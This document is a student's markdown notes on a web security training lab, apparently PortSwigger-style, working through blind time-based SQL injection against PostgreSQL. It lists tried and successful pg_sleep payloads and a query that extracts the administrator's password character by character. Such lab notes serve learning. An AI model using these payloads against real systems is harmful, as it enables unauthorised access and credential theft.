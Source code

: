 # The Lab
# Goal: Log in as Admin

# Preliminary Work
- Given: no different responses for errors or no rows or custom welcome messages returned
    - thus, conditional error payloads are not applicable
- Do conditional payloads with time delays

# Conditional Time Delay Exploitation
- Testing version of SQL with unconditional time delays
    - PostgreSQL: fake'||pg_sleep(10)-- (:white_check_mark:)
- Testing conditional time delays
    - PostgreSQL: fake'||SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
        - Loads normally? (:white_check_mark:)
    - Delays?
        - fake'||SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END-- (:x:)
        - fake'||SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END-- (:x:)
        - fake'||SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END# (:x:)
        - fake'+SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END-- (:x:)
        - fake'+SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END# (:x:)
        - fake';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END-- (:x:)
        - fake';SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END-- (:x:)
        - fake';SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END# (:x:)
        - fake';SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END-- (:x:)
        - fake';SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END# (:x:)
        - Looked at solution
            - Completely forgot about URL encoding lol
                - Imagine people actually santizing input lol
            - fake'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END-- (:white_check_mark:)
                - %3B = semicolon
                - Had good idea with plus signs
- Using conditional time delays to extract password characters

# Extracting Information
- Trying: fake'%3BIF+(SELECT+COUNT(username)+FROM+users+WHERE+username+=+'administrator'+AND+SUBSTRING(password,1,1)+>+'m')+=+1+THEN+pg_sleep(10)+ELSE+pg_sleep(0)--
    - Testing to see if the expression is true? (evaluates to 1) <-- PLEASE INVESTIGATE
    - Reminders:
        - Indexing begins from 1
        - First # is index
        - Second # is number of characters after first index to include

# Observations
- '||' concantenation works for unconditional time delays ONLY
- Might try the URL encoded semicolon on previous labs that I could not solve
